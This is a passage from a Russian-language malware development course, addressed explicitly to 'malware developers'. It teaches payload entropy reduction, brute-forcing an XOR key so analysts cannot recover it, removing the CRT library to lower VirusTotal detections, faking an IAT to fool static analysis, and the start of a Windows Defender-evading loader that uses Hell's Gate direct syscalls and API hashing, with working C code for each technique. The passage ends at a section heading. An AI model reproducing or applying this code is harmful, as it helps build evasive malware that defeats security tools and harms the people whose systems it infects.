Более простым способом уменьшения энтропии является дополнение шифротекста полезной нагрузки одинаковым байтом. Это работает потому, что добавленные байты будут иметь энтропию 0,00, так как они все одинаковы.
Например, на следующем изображении показано, как энтропия шелл-кода Msfvenom резко снижается с 5,88325 до 3,77597 после добавления к нему 285 байтов 0xEA.
Недостатком этого подхода является увеличение размера полезной нагрузки. Более крупные нагрузки потребуют больше байтов, что также увеличит размер.
Независимость от библиотеки CRT Библиотека CRT, или C Runtime library, представляет собой стандартный интерфейс для языка программирования C, который содержит набор функций и макросов. Эти функции обычно связаны с управлением памятью (например, memcpy), открытием и закрытием файлов (например, fopen) и манипулированием строками (например, strcpy).
Удаление библиотеки CRT
Может значительно уменьшить энтропию окончательной реализации. На следующем изображении сравниваются два файла, Hello World.exe и Hello World - No CRT.exe, которые имеют одинаковый код, но скомпилированы с и без библиотеки CRT. Hello World - No CRT.exe имеет значительно более низкое значение энтропии по сравнению с Hello World.exe.
Инструмент Maldev Academy - EntropyReducer
Также можно уменьшить энтропию полезной нагрузки с помощью инструмента EntropyReducer, разработанного командой MalDev Academy.
EntropyReducer использует собственный алгоритм, который использует связанные списки для вставки нулевых байтов между каждым блоком полезной нагрузки размером BUFF_SIZE.
Объяснение связанных списков выходит за рамки данной статьи, однако хорошо документированный readme и хорошо прокомментированный код в репозитории должны быть достаточными для понимания алгоритма инструмента.
Брут ключа дешифровки полезной нагрузки
Введение
В начальных статьях демонстрировались процессы шифрования и дешифрования данных, а также предупреждалось о том, что сохранение ключа шифрования в виде открытого текста в бинарном файле делает его легкодоступным. Один из способов решить эту проблему - шифровать ключ другим ключом и расшифровывать его во время выполнения программы. Чтобы избежать жесткой привязки ключа к бинарному файлу, ключ получается методом "грубой силы".
В этом модуле будет продемонстрирован алгоритм дешифрования XOR, при котором программа должна угадать ключ методом "грубой силы".
Процесс шифрования ключа
Для выполнения "грубой силы" при дешифровании ключа необходим байт-подсказка в функциях шифрования и дешифрования. Знание значения одного байта до и после процесса шифрования позволяет осуществить процесс дешифрования. В данном случае первый байт выбран в качестве байта-подсказки.
Например, если байт-подсказка - BA, а после шифрования он становится равным 71, то процесс дешифрования будет перебирать значения до тех пор, пока не будет получено значение BA, что указывает на правильный ключ.
Функция шифрования ключа
Функция GenerateProtectedKey принимает байт-подсказку и добавляет его в начало ключа в виде первого байта. Затем она использует алгоритм XOR для шифрования ключа с использованием случайно сгенерированного ключа во время выполнения.
Обратите внимание, что функция PrintHex предназначена для вывода входного буфера в виде шестнадцатеричного массива и используется для вывода сгенерированного ключа в виде открытого текста.
C:
/*
HintByte: байт-подсказка, который будет сохранен в качестве первого байта ключа
sKey: размер ключа для генерации
ppProtectedKey: указатель на буфер PBYTE, который получит зашифрованный ключ
*/
VOID GenerateProtectedKey(IN BYTE HintByte, IN SIZE_T sKey, OUT PBYTE* ppProtectedKey) {
// Генерация начального значения
srand(time(NULL));
// 'b' используется как ключ алгоритма шифрования ключа
BYTE b = rand() % 0xFF;
// 'pKey' - это буфер для генерации исходного ключа
PBYTE pKey = (PBYTE)malloc(sKey);
// 'pProtectedKey' - это зашифрованная версия 'pKey', использующая 'b'
PBYTE pProtectedKey = (PBYTE)malloc(sKey);
if (!pKey || !pProtectedKey)
return;
// Генерация еще одного начального значения
srand(time(NULL) * 2);
// Ключ начинается с байта-подсказки
pKey[0] = HintByte;
// Генерация остальной части ключа
for (int i = 1; i < sKey; i++){
pKey[i] = (BYTE)rand() % 0xFF;
}
printf("[+] Сгенерированный байт ключа: 0x%0.2X \n\n", b);
printf("[+] Исходный ключ: ");
PrintHex(pKey, sKey);
// Шифрование ключа с использованием алгоритма XOR
// Используется 'b' в качестве ключа
for (int i = 0; i < sKey; i++){
pProtectedKey[i] = (BYTE)((pKey[i] + i) ^ b);
}
// Сохранение зашифрованного ключа через указатель
*ppProtectedKey = pProtectedKey;
// Освобождение буфера с исходным ключом
free(pKey);
}Процесс дешифрования ключа
Поскольку ключ шифрования, используемый для шифрования ключа, не сохраняется нигде, функция дешифрования должна угадать значение b, показанное в функции GenerateProtectedKey. Для этого функция дешифрования будет выполнять операцию XOR с первым байтом ключа, который является байтом-подсказкой, с разными ключами до тех пор, пока полученный байт не станет равным байту-подсказке исходного ключа. Когда это происходит, функция узнает, что было выбрано правильное значение b. Фрагмент кода ниже демонстрирует эту логику.
C:
if (((EncryptedKey[0] ^ b) - 0) == HintByte)
// Тогда значение 'b' - это ключ шифрования XOR
else
// Тогда значение 'b' не является ключом шифрования XOR, попробуйте с другим значением 'b'Продолжая пример, когда 71 становится равным BA, это означает, что правильное значение b было угадано.
Функция дешифрования ключа
Функция BruteForceDecryption требует тот же байт-подсказку, которая передавалась в функцию шифрования.
C:
/* - HintByte : тот же байт-подсказка, что и в функции генерации ключа
- pProtectedKey : зашифрованный ключ - sKey : размер ключа
- ppRealKey : указатель на буфер PBYTE, который получит расшифрованный ключ */
BYTE BruteForceDecryption(IN BYTE HintByte, IN PBYTE pProtectedKey, IN SIZE_T sKey, OUT PBYTE* ppRealKey) {
BYTE b = 0;
PBYTE pRealKey = (PBYTE)malloc(sKey);
if (!pRealKey)
return NULL;
while (1){
// Используя байт-подсказку, если он равен, то мы найдем значение 'b', необходимое для дешифрования ключа
if (((pProtectedKey[0] ^ b) - 0) == HintByte)
break;
// иначе увеличьте 'b' и попробуйте снова
else
b++;
}
// Обратный алгоритм XOR-шифрования, так как 'b' теперь известен
for (int i = 0; i < sKey; i++){
pRealKey[i] = (BYTE)((pProtectedKey[i] ^ b) - i);
}
// Сохранение расшифрованного ключа через указатель
*ppRealKey = pRealKey;
return b;
}Заключение
Несмотря на свою простоту, подход с использованием "грубой силы" может быть использован для защиты ключей от анализа вирусными аналитиками и исследователями, которые пытаются извлечь ключ из бинарного файла. Это заставляет их отлаживать бинарный файл, чтобы понять, как генерируется ключ, что может быть полезным при использовании методов антианализа.
Удаление библиотеки CRT
Введение
До этого раздела все проекты кода компилировались с использованием опции "Выпуск" или "Отладка" в Visual Studio.
Для разработчиков вредоносных программ важно понимать разницу между опциями компиляции "Выпуск" и "Отладка" в Visual Studio, а также последствия изменения настроек компилятора по умолчанию. Изменение настроек компилятора Visual Studio может повлиять на созданный двоичный файл, такое как уменьшение его размера или снижение энтропии.
Опция "Выпуск" против "Отладка"
Конфигурации сборки "Выпуск" и "Отладка" определяют, как программа компилируется и выполняется, и каждая из них выполняет свою задачу и предоставляет разные возможности. Наиболее важные различия между этими двумя опциями приведены ниже.
Производительность - Опция сборки "Выпуск" быстрее, чем опция "Отладка". В режиме выпуска включены оптимизации компиляции, которые отключены в режиме "Отладка".
Отладка - Отладка приложений, созданных с использованием конфигурации сборки "Отладка", упрощается, потому что в этом режиме отключены оптимизации компиляции, что делает код более доступным для отладки. Кроме того, конфигурация "Отладка" генерирует файлы символов отладки (.pdb), которые содержат информацию о скомпилированном исходном коде. Это позволяет отладчикам отображать дополнительную информацию, такую как переменные, функции и номера строк.
Развертывание - Версия "Выпуск" приложения используется из-за увеличенной совместимости с их компьютерами, в отличие от версии "Отладка", которая обычно требует дополнительных динамических библиотек (DLL), доступных только в Visual Studio, что делает отладочные приложения совместимыми только с компьютерами, на которых установлена Visual Studio.
Обработка исключений - В конфигурации сборки "Отладка" Visual Studio может приостанавливать выполнение и отображать сообщение об ошибке в виде окна сообщения, когда возникает исключение, указывая имя переменной или номер строки, вызвавших повреждение стека, например. Такие исключения могут привести к зависанию программы, если она скомпилирована в режиме "Выпуск".
Настройки компилятора по умолчанию
Исходя из предыдущих аспектов, опция "Выпуск" предпочтительнее опции "Отладка". Однако опция "Выпуск" все равно имеет несколько проблем.
Совместимость - Некоторые приложения, использующие опцию "Выпуск", всё равно могут вызывать ошибки, аналогичные приведенной ниже, если целевой компьютер не имеет установленной Visual Studio.
Импортируемые функции CRT - В таблице импорта (IAT) присутствуют несколько неразрешенных функций, которые невозможно разрешить с использованием методов, таких как API-хэширование. Эти функции импортируются из библиотеки CRT, что будет объяснено позже. Пока достаточно понимать, что в любом приложении, созданном настройками компилятора по умолчанию Visual Studio, есть несколько неиспользуемых импортированных функций. В качестве примера, IAT программы 'Hello World' должна импортировать информацию только о функции printf, однако она импортирует следующие функции (вывод сокращен из-за размера).
Размер - Сгенерированные файлы часто больше, чем они должны быть из-за оптимизаций компилятора по умолчанию. Например, следующая программа "Hello World" имеет размер около 11 килобайт.
Информация для отладки - Использование опции "Выпуск" все равно может включать информацию, связанную с отладкой, и другие строки, которые могут быть использованы средствами безопасности для создания статических сигнатур. На изображениях ниже показан результат выполнения программы Strings.exe для программы "Hello World" (вывод сокращен из-за размера).
Библиотека CRT
Библиотека CRT, также известная как Microsoft C Run-Time Library, представляет собой набор низкоуровневых функций и макросов, обеспечивающих базовую функциональность для стандартных программ на C и C++. Она включает функции управления памятью (например, malloc, memset и free), манипулирования строками (например, strcpy и strlen) и функции ввода-вывода (например, printf, wprintf и scanf).
DLL-файлы библиотеки CRT названы vcruntimeXXX.dll, где XXX - это номер версии используемой библиотеки CRT. Также существуют DLL-файлы, такие как api-ms-win-crt-stdio-l1-1-0.dll, api-ms-win-crt-runtime-l1-1-0.dll и api-ms-win-crt-locale-l1-1-0.dll, которые также связаны с библиотекой CRT. Каждая из этих DLL выполняет конкретные функции и экспортирует несколько функций. Эти DLL-файлы связываются компилятором на этапе компиляции и, следовательно, находятся в таблице импорта (IAT) созданных программ.
Решение проблем совместимости
По умолчанию, при компиляции приложения в Visual Studio, опция Runtime Library установлена на "Multi-threaded DLL (/MD)". С этой опцией DLL-файлы библиотеки CRT связываются динамически, что означает их загрузку во время выполнения. Это вызывает проблемы совместимости, о которых упоминалось ранее. Для их решения установите опцию Runtime Library на "Multi-threaded (/MT)", как показано ниже.
Multi-threaded (/MT)
Компилятор Visual Studio может быть настроен на статическую связь функций CRT, выбрав опцию "Multi-threaded (/MT)". Это приводит к тому, что функции, такие как printf, будут представлены напрямую в созданной программе, а не импортируются из DLL-файлов библиотеки CRT. Обратите внимание, что это увеличит размер конечного бинарного файла и добавит больше функций WinAPI в таблицу импорта, но удалит DLL-файлы библиотеки CRT.
Использование опции "Multi-threaded (/MT)" для компиляции программы "Hello World" приводит к следующей таблице импорта.
Размер бинарного файла также значительно увеличивается, как показано ниже.
Библиотека CRT и отладка
После удаления библиотеки CRT программа может быть скомпилирована только в режиме "Выпуск". Это делает отладку кода более сложной. Поэтому рекомендуется удалять библиотеку CRT только после завершения отладки и разработки.
Дополнительные изменения компилятора
Предыдущие разделы демонстрировали, как статически связать библиотеку CRT. Однако идеальным решением было бы избегать зависимости от библиотеки CRT как статически, так и динамически, так как это может привести к уменьшению размера бинарного файла и удалению ненужных импортированных функций и отладочной информации. Для этого необходимо внести изменения в несколько опций компиляции Visual Studio.
Отключение исключений C++
Опция Enable C++ Exceptions используется для генерации кода, который правильно обрабатывает исключения, выбрасываемые кодом. Однако, поскольку библиотека CRT больше не связана, эта опция не требуется и должна быть отключена.
Отключение оптимизации всей программы
Опция Whole Program Optimization должна быть отключена, чтобы предотвратить выполнение компилятором оптимизаций, которые могут повлиять на стек. Отключение этой опции предоставляет полный контроль над скомпилированным кодом.
Отключение отладочной информации
Отключите опции Generate Debug Info и Generate Manifest, чтобы удалить добавленную отладочную информацию.
Игнорирование всех библиотек по умолчанию
Установите опцию Ignore All Default Libraries на "Yes (/NODEFAULTLIB)", чтобы исключить связывание системных библиотек по умолчанию компилятором с программой. Это приведет к исключению связывания библиотеки CRT, а также других библиотек. В этом случае пользователь должен предоставить необходимые функции, которые обычно предоставляются этими библиотеками по умолчанию. На изображении ниже показано установление опции "Yes (/NODEFAULTLIB)".
К сожалению, компиляция с этой опцией приводит к ошибкам, как показано ниже.
Установка символа точки входа
Первая ошибка "LNK2001 - unresolved external symbol mainCRTStartup" указывает на то, что компилятор не смог найти определение символа "mainCRTStartup". Это ожидаемо, так как "mainCRTStartup" является точкой входа для программы, связанной с библиотекой CRT, что не имеет места в данном случае. Чтобы решить эту проблему, следует установить новый символ точки входа, как показано ниже.
Символ "main" представляет собой функцию main в исходном коде. Для выбора другой функции в качестве точки входа просто установите символ точки входа на имя этой функции. Повторная компиляция приводит к меньшему количеству ошибок, как показано ниже.
Отключение проверки безопасности
Следующая ошибка, "LNK2001 - unresolved external symbol __security_check_cookie", означает, что компилятор не нашел символ "__security_check_cookie". Этот символ используется для выполнения проверки стековой куки, которая является функцией безопасности, предотвращающей переполнение буфера стека. Чтобы решить эту проблему, установите опцию Security Check на "Disable Security Check (/Gs-)", как показано ниже.
Отключение проверок SDL
После отключения проверки безопасности ошибка исчезает, но появляется новое предупреждение.
Предупреждение "D9025 - overriding '/sdl' with '/GS-'" можно решить, отключив проверки Security Development Lifecycle (SDL).
Остаются две неразрешенные ошибки символов, которые решаются в разделе Замена функций библиотеки CRT ниже.
Замена функций библиотеки CRT
Из-за удаления библиотеки CRT остались две неразрешенные ошибки из-за использования функции printf для вывода на консоль, хотя библиотека CRT была удалена из программы.
При удалении библиотеки CRT необходимо написать собственные версии функций, такие как printf, strlen, strcat, memcpy. Для этой цели можно использовать библиотеки, например, VX-API. Например, StringCompare.cpp заменяет функцию strcmp для сравнения строк.
Замена функции Printf
Для демонстрационной программы, используемой в этом разделе, функция printf заменяется следующей макроинструкцией.
C:
#define PRINTA( STR, ... ) \
if (1) { \
LPSTR buf = (LPSTR)HeapAlloc( GetProcessHeap(), HEAP_ZERO_MEMORY, 1024 ); \
if ( buf != NULL ) { \
int len = wsprintfA( buf, STR, __VA_ARGS__ ); \
WriteConsoleA( GetStdHandle( STD_OUTPUT_HANDLE ), buf, len, NULL, NULL ); \
HeapFree( GetProcessHeap(), 0, buf ); \
} \
}Макроинструкция PRINTA принимает два аргумента:
- STR - Строка формата, которая определяет, как выводить результат.
- VA_ARGS или ... - Аргументы, которые нужно вывести. Макроинструкция PRINTA выделяет кучевой буфер размером 1024 байта, затем использует функцию wsprintfA для записи отформатированных данных из переменных аргументов (VA_ARGS) в буфер с использованием строки формата (STR). Затем используется функция WriteConsoleA WinAPI для записи полученной строки на консоль, которая получается через функцию GetStdHandle WinAPI.
C:
#include <Windows.h>
#include <stdio.h>
#define PRINTA( STR, ... ) \
if (1) { \
LPSTR buf = (LPSTR)HeapAlloc( GetProcessHeap(), HEAP_ZERO_MEMORY, 1024 ); \
if ( buf != NULL ) { \
int len = wsprintfA( buf, STR, __VA_ARGS__ ); \
WriteConsoleA( GetStdHandle( STD_OUTPUT_HANDLE ), buf, len, NULL, NULL ); \
HeapFree( GetProcessHeap(), 0, buf ); \
} \
}
int main() {
PRINTA("Hello World ! \n");
return 0;
}Создание вредоносного ПО, независимого от библиотеки CRT
При создании вредоносного программного обеспечения, которое не использует библиотеку CRT, следует учесть несколько моментов.
Использование внутренних функций
Некоторые функции и макросы в Visual Studio используют функции CRT для выполнения своих задач. Например, макрос ZeroMemory использует функцию CRT memset для заполнения указанного буфера нулями. Это требует от разработчика поиска альтернативы этому макросу, так как его нельзя использовать. В этом случае может использоваться функция из CopyMemoryEx.cpp в качестве замены.
Другим решением может быть ручное установление пользовательских версий функций, основанных на CRT, таких как memset. Это заставляет компилятор обрабатывать эту пользовательскую функцию вместо экспортированной версии CRT. Последовательно макросы, такие как ZeroMemory, также будут использовать эту пользовательскую функцию.
Для демонстрации этого можно указать пользовательскую версию функции memset компилятору следующим образом, используя ключевое слово intrinsic.
C:
#include <Windows.h>
// Ключевое слово `extern` задает функцию `memset` как внешнюю функцию.
extern void* __cdecl memset(void*, int, size_t);
// Макросы #pragma intrinsic(memset) и #pragma function(memset) - это инструкции компилятора, специфичные для Microsoft.
// Они заставляют компилятор генерировать код для функции memset с использованием встроенной интригирующей функции.
#pragma intrinsic(memset)
#pragma function(memset)
void* __cdecl memset(void* Destination, int Value, size_t Size) {
// логика, аналогичная memset
unsigned char* p = (unsigned char*)Destination;
while (Size > 0) {
*p = (unsigned char)Value;
p++;
Size--;
}
return Destination;
}
int main() {
PVOID pBuff = HeapAlloc(GetProcessHeap(), 0, 0x100);
if (pBuff == NULL)
return -1;
// это будет использовать нашу версию 'memset' вместо версии CRT Library
ZeroMemory(pBuff, 0x100);
HeapFree(GetProcessHeap(), 0, pBuff);
return 0;
}Скрытие окна консоли
Вредоносное программное обеспечение не должно создавать окно консоли при выполнении, так как это вызывает подозрение и позволяет пользователю завершить программу, закрыв окно. Для предотвращения этого можно использовать функцию ShowWindow(NULL, SW_HIDE) в начале функции точки входа, хотя это требует времени (в миллисекундах) и может вызвать заметное мерцание.
Лучшим решением является установка программы для компиляции как GUI-программы, установив опцию SubSystem Visual Studio в "Windows (/SUBSYSTEM:WINDOWS)".
Демонстрация
После выполнения всех описанных в этом разделешагов, получаются следующие результаты.
Во-первых, размер исполняемого файла уменьшается с 112,5 килобайт до примерно 3 килобайт.
Затем в IAT не обнаружено неиспользуемых функций.
В бинарном файле обнаружено меньше строк без отладочной информации.
Наконец, удаление библиотеки CRT приводит к меньшему детекту.
Файл загружается на VirusTotal дважды: первый раз с использованием опции "Multi-threaded (/MT)", чтобы статически связать библиотеку CRT, а второй раз после полного удаления библиотеки CRT.
IAT Camouflage
Введение
Удаление библиотеки C Runtime из конечного бинарного файла позволяет очистить IAT от неиспользуемых функций WinAPI. Однако это может вызвать подозрение, если бинарный файл импортирует очень мало функций WinAPI, особенно если это совмещается с хэшированием API, что может даже привести к отсутствию импортированных функций.
Для разработчика вредоносных программ важно, чтобы реализация вредоносного ПО выглядела нормально. Иметь реализацию с фиктивным IAT более эффективно, чем отсутствие импортированных функций. Этот модуль подробно рассмотрит эту концепцию.
Давайте начнем с бинарного файла с именем IatCamouflage.exe, который не использует библиотеку CRT и был скомпилирован аналогично тому, как показанно выше.
C:
#include <Windows.h>
int main() {
// бесконечное ожидание
WaitForSingleObject((HANDLE)-1, INFINITE);
return 0;
}Когда бинарный файл выполняется, Process Hacker выделит процесс розовым цветом и отобразит заметку, когда мышь наводится на процесс. Process Hacker предполагает, что бинарный файл упакован из-за отсутствия импорта в IAT.
Убедитесь, что IatCamouflage.exe импортирует одну функцию с помощью dumpbin.exe.
Манипуляция IAT
Манипуляция IAT может быть легко выполнена с использованием доброжелательных WinAPI, которые не изменяют поведение программы. Это можно сделать, вызывая WinAPI с параметрами NULL или используя WinAPI на фиктивных данных, которые не повлияют на программу. Кроме того, эти функции могут размещаться в if-условиях, которые никогда не будут выполняться.
Тем не менее, некоторые компиляторы могут изменять ход выполнения кода с использованием оптимизации "удаление мертвого кода". Это свойство оптимизации компилятора для удаления кода, который не влияет на работу программы.
Пример удаления мертвого кода
В следующем фрагменте кода вызываются несколько функций WinAPI внутри if-условия, которое никогда не будет выполнено.
C:
int z = 4;
// Невозможное if-условие, которое никогда не выполнится
if (z > 5) {
// Случайные доброжелательные WinAPI
unsigned __int64 i = MessageBoxA(NULL, NULL, NULL, NULL);
i = GetLastError();
i = SetCriticalSectionSpinCount(NULL, NULL);
i = GetWindowContextHelpId(NULL);
i = GetWindowLongPtrW(NULL, NULL);
i = RegisterClassW(NULL);
i = IsWindowVisible(NULL);
i = ConvertDefaultLocale(NULL);
i = MultiByteToWideChar(NULL, NULL, NULL, NULL, NULL, NULL);
i = IsDialogMessageW(NULL, NULL);
}Если проект Visual Studio не имеет зависимости от библиотеки CRT и компилирует вышеуказанный код, то функции WinAPI не будут видны в IAT бинарного файла. Компилятор знает, что if-условие невозможно выполнить, и, следовательно, весь код if-условия не включается в скомпилированный бинарный файл, что приводит к тому, что функции WinAPI не будут в IAT бинарного файла. Существуют два способа решения этой проблемы:
- Отключение оптимизации кода.
- Обман компилятора, чтобы он думал, что этот код используется.
Для этого метода необходимо просто отключить опцию оптимизации Visual Studio, как показано на изображении ниже. Это отключит свойство оптимизации компилятора "удаление мертвого кода", что приведет к тому, что функции WinAPI будут видны в IAT. Однако отключение оптимизации на более крупных программах может негативно сказаться на производительности, поскольку компилятор больше не оптимизирует эффективность и скорость кода. Поэтому программа может потреблять больше памяти или работать медленнее.
Обман компилятора
Для этого метода необходимо использовать логику, чтобы обмануть компилятор и заставить его думать, что if-условие может быть допустимым. В приведенном ниже фрагменте кода используется логика, которая делает сложно определить компилятору, будет ли if-условие выполняться, что заставляет его включить эту логику в скомпилированный бинарный файл, даже если if-условие никогда не будет удовлетворено.
C:
// Генерация случайного seed во время компиляции
int RandomCompileTimeSeed(void)
{
return '0' * -40271
__TIME__[7] * 1
__TIME__[6] * 10
__TIME__[4] * 60
__TIME__[3] * 600
__TIME__[1] * 3600
__TIME__[0] * 36000;
}
// Функция-пустышка, делающая if-условие в 'IatCamouflage' интересным
PVOID Helper(PVOID *ppAddress) {
PVOID pAddress = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, 0xFF);
if (!pAddress)
return NULL;
// Установка первых 4 байтов в pAddress равными случайному числу (меньше 255)
*(int*)pAddress = RandomCompileTimeSeed() % 0xFF;
// Сохранение базового адреса по указателю и возврат его
*ppAddress = pAddress;
return pAddress;
}
// Функция, импортирующая WinAPI, но никогда их не использующая
VOID IatCamouflage() {
PVOID pAddress = NULL;
int* A = (int*)Helper(&pAddress);
// Невозможное if-условие, которое никогда не выполнится
if (*A > 350) {
// Несколько случайных функций WinAPI
unsigned __int64 i = MessageBoxA(NULL, NULL, NULL, NULL);
i = GetLastError();
i = SetCriticalSectionSpinCount(NULL, NULL);
i = GetWindowContextHelpId(NULL);
i = GetWindowLongPtrW(NULL, NULL);
i = RegisterClassW(NULL);
i = IsWindowVisible(NULL);
i = ConvertDefaultLocale(NULL);
i = MultiByteToWideChar(NULL, NULL, NULL, NULL, NULL, NULL);
i = IsDialogMessageW(NULL, NULL);
}
// Освобождение выделенного в 'Helper' буфера
HeapFree(GetProcessHeap(), 0, pAddress);
}Ниже приведены несколько моментов, чтобы облегчить понимание этого фрагмента кода.
Функция RandomCompileTimeSeed используется для генерации случайного значения во время компиляции с использованием макроса TIME.
Функция Helper выделяет кучу и устанавливает первые 4 байта равными значению RandomCompileTimeSeed() % 0xFF, что ограничивает значение числа, чтобы оно было меньше 0xFF (в шестнадцатеричной системе) или 255 (в десятичной системе).
Функция IatCamouflage содержит переменную A, которая является указателем на целое число и устанавливается равной первым четырем байтам буфера, возвращенного функцией Helper.
Поскольку функция Helper всегда будет возвращать значение меньше 255, if-условие if (*A > 350) всегда будет ложным. Здесь интересно то, что компилятор не знает об этом и, следовательно, включит эту логику в скомпилированный бинарный файл.
Результаты
Скомпилируйте приведенный выше фрагмент кода и проверьте IAT бинарного файла. Как и ожидалось, доброжелательные функции WinAPI внутри if-условия теперь видны.
Эти импортированные функции достаточно, чтобы сделать бинарный файл незаразным при статическом анализе. С другой стороны, вредоносные функции WinAPI должны быть удалены из IAT с использованием хэширования API.
Обход Windows defender
Введение
До сих пор было продемонстрировано множество методов и техник создания и выполнения загрузчика payload, который может обходить различные программы защиты от вредоносного кода. Эта статья будет работать над созданием полнофункционального загрузчика payload с нуля, чтобы укрепить знания, полученные в предыдущих разделах.
Создайте пустой проект Visual Studio и следуйте за этим разделом.
Характеристики загрузчика payload
Реализованный загрузчик payload будет иметь следующие характеристики:
- Поддержка удаленного внедрения кода
- Инжекция с использованием прямых системных вызовов через Hell's Gate
- Хеширование API
- Функции против анализа
- Шифрование payload RC4
- Попытка взлома ключа шифрования (Брут ключа шифрования)
- Отсутствие импорта библиотек CRT
Настройка Hell's Gate
Этот загрузчик использует внедрение payload с использованием прямых системных вызовов, полученных с помощью Hell's Gate.
Для начала необходимо создать файлы Structs.h, HellsGate.c и HellAsm.asm.
В этих файлах содержатся необходимые функции для выполнения прямых системных вызовов. Файл Structs.h используется для сохранения недокументированных структур Windows и включается в последующие файлы C. В нем содержатся определения структур, таких как PEB, TEB и другие, необходимых для реализации Hell's Gate.
Файл HellAsm.asm будет таким же, как в репозитории. Что касается HellsGate.c, в нем будут следующие функции.
HellsGate.c
C:
#include <Windows.h>
#include "Structs.h"
PTEB RtlGetThreadEnvironmentBlock() {
#if _WIN64
return (PTEB)__readgsqword(0x30);
#else
return (PTEB)__readfsdword(0x16);
#endif
}
BOOL GetImageExportDirectory(PVOID pModuleBase, PIMAGE_EXPORT_DIRECTORY* ppImageExportDirectory) {
// Получить заголовок DOS
PIMAGE_DOS_HEADER pImageDosHeader = (PIMAGE_DOS_HEADER)pModuleBase;
if (pImageDosHeader->e_magic != IMAGE_DOS_SIGNATURE) {
return FALSE;
}
// Получить заголовки NT
PIMAGE_NT_HEADERS pImageNtHeaders = (PIMAGE_NT_HEADERS)((PBYTE)pModuleBase + pImageDosHeader->e_lfanew);
if (pImageNtHeaders->Signature != IMAGE_NT_SIGNATURE) {
return FALSE;
}
// Получить EAT
*ppImageExportDirectory = (PIMAGE_EXPORT_DIRECTORY)((PBYTE)pModuleBase + pImageNtHeaders->OptionalHeader.DataDirectory[0].VirtualAddress);
return TRUE;
}
BOOL GetVxTableEntry(PVOID pModuleBase, PIMAGE_EXPORT_DIRECTORY pImageExportDirectory, PVX_TABLE_ENTRY pVxTableEntry) {
PDWORD pdwAddressOfFunctions = (PDWORD)((PBYTE)pModuleBase + pImageExportDirectory->AddressOfFunctions);
PDWORD pdwAddressOfNames = (PDWORD)((PBYTE)pModuleBase + pImageExportDirectory->AddressOfNames);
PWORD pwAddressOfNameOrdinales = (PWORD)((PBYTE)pModuleBase + pImageExportDirectory->AddressOfNameOrdinals);
for (WORD cx = 0; cx < pImageExportDirectory->NumberOfNames; cx++) {
PCHAR pczFunctionName = (PCHAR)((PBYTE)pModuleBase + pdwAddressOfNames[cx]);
PVOID pFunctionAddress = (PBYTE)pModuleBase + pdwAddressOfFunctions[pwAddressOfNameOrdinales[cx]];
if (djb2(pczFunctionName) == pVxTableEntry->uHash) {
pVxTableEntry->pAddress = pFunctionAddress;
// Быстрое и грязное исправление, если функция была перехвачена
WORD cw = 0;
while (TRUE) {
// Проверить, является ли это системным вызовом, в этом случае мы слишком далеко
if (*((PBYTE)pFunctionAddress + cw) == 0x0f && *((PBYTE)pFunctionAddress + cw + 1) == 0x05)
return FALSE;
// Проверить, является ли это возвратом, в этом случае, возможно, мы тоже слишком далеко
if (*((PBYTE)pFunctionAddress + cw) == 0xc3)
return FALSE;
// Первые байты должны быть:
// MOV R10, RCX
// MOV RCX, <syscall>
if (*((PBYTE)pFunctionAddress + cw) == 0x4c
&& *((PBYTE)pFunctionAddress + 1 + cw) == 0x8b
&& *((PBYTE)pFunctionAddress + 2 + cw) == 0xd1
&& *((PBYTE)pFunctionAddress + 3 + cw) == 0xb8
&& *((PBYTE)pFunctionAddress + 6 + cw) == 0x00
&& *((PBYTE)pFunctionAddress + 7 + cw) == 0x00) {
BYTE high = *((PBYTE)pFunctionAddress + 5 + cw);
BYTE low = *((PBYTE)pFunctionAddress + 4 + cw);
pVxTableEntry->wSystemCall = (high << 8) | low;
break;
}
cw++;
};
}
}
if (pVxTableEntry->wSystemCall != NULL)
return TRUE;
else
return FALSE;
}Код выше не имеет определения структуры VX_TABLE_ENTRY или функции djb2. Для решения этой проблемы будут созданы два новых файла: WinApi.c и Common.h.
WinApi.c - Этот файл используется для хранения функций замены библиотеки CRT и функций хеширования строк, используемых в Hell's Gate и реализации хеширования API.
Common.h - Этот файл предоставляет общие прототипы функций для возможности вызова функции из другого файла, а также пользовательские определения структур, значения хешей системных вызовов и WinAPI.
Функция хеширования строк djb2 заменяется следующими функциями HashStringJenkinsOneAtATime32BitA/W, изменяя таким образом исходный алгоритм хеширования строк, используемый в Hell's Gate.
WinApi.c
C:
#include <Windows.h>
#include "Structs.h"
#include "Common.h"
UINT32 HashStringJenkinsOneAtATime32BitA(_In_ PCHAR String)
{
SIZE_T Index = 0;
UINT32 Hash = 0;
SIZE_T Length = lstrlenA(String);
while (Index != Length)
{
Hash += String[Index++];
Hash += Hash << INITIAL_SEED;
Hash ^= Hash >> 6;
}
Hash += Hash << 3;
Hash ^= Hash >> 11;
Hash += Hash << 15;
return Hash;
}
UINT32 HashStringJenkinsOneAtATime32BitW(_In_ PWCHAR String)
{
SIZE_T Index = 0;
UINT32 Hash = 0;
SIZE_T Length = lstrlenW(String);
while (Index != Length)
{
Hash += String[Index++];
Hash += Hash << INITIAL_SEED;
Hash ^= Hash >> 6;
}
Hash += Hash << 3;
Hash ^= Hash >> 11;
Hash += Hash << 15;
return Hash;
}Common.h
C:
#pragma once
#include <Windows.h>
// Начальное значение для функции хеширования HashStringJenkinsOneAtATime32BitA/W в 'WinApi.c'
#define INITIAL_SEED 8
UINT32 HashStringJenkinsOneAtATime32BitW(_In_ PWCHAR String);
UINT32 HashStringJenkinsOneAtATime32BitA(_In_ PCHAR String);
#define HASHA(API) (HashStringJenkinsOneAtATime32BitA((PCHAR) API))
#define HASHW(API) (HashStringJenkinsOneAtATime32BitW((PWCHAR) API))
// Это прототипы функций - функции определены в 'HellsGate.c'
PTEB RtlGetThreadEnvironmentBlock();
BOOL GetImageExportDirectory(PVOID pModuleBase, PIMAGE_EXPORT_DIRECTORY* ppImageExportDirectory);
BOOL GetVxTableEntry(PVOID pModuleBase, PIMAGE_EXPORT_DIRECTORY pImageExportDirectory, PVX_TABLE_ENTRY pVxTableEntry);
// Это прототипы функций - функции определены в 'HellAsm.asm'
extern VOID HellsGate(WORD wSystemCall);
extern HellDescent();Определите структуру VX_TABLE_ENTRY в файле Common.h, а затем обновите файл HellsGate.c, чтобы включить ее и использовать HASHA вместо djb2 в качестве функции хеширования.
VX_TABLE_ENTRY
Код:
typedef struct _VX_TABLE_ENTRY {
PVOID pAddress;
UINT32 uHash;
WORD wSystemCall;
} VX_TABLE_ENTRY, *PVX_TABLE_ENTRY;Вычисление хешей системных вызовов
